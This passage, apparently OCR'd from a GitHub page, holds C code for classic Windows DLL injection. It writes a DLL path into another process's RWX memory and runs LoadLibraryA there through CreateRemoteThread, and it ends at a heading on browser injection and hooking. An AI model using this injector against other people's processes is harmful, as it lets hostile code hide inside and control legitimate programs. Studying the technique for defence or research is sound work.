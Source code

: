 ```C#
        exit(0);
    }

    char dllLibFullPath[256];

    LPCSTR processName = argv[1];
    LPCSTR dllLibName = argv[2];

    DWORD processId = getProcessId(processName);
    if (!processId) {
        exit(1);
    }

    if (!GetFullPathName(dllLibName, sizeof(dllLibFullPath), dllLibFullPath, NULL)) {
        exit(1);
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (hProcess == NULL) {
        exit(1);
    }

    LPVOID dllAllocatedMemory = VirtualAllocEx(hProcess, NULL, strlen(dllLibFullPath), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (dllAllocatedMemory == NULL) {
        exit(1);
    }

    if (!WriteProcessMemory(hProcess, dllAllocatedMemory, dllLibFullPath, strlen(dllLibFullPath) + 1, NULL)) {
        exit(1);
    }

    LPVOID loadLibrary = (LPVOID) GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

    HANDLE remoteThreadHandler = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE) loadLibrary, dllAllocatedMemory, 0, NULL);
    if (remoteThreadHandler == NULL) {
        exit(1);
    }

    CloseHandle(hProcess);

    return 0;
}
```

### Case Study: Browser Injection + Hooking
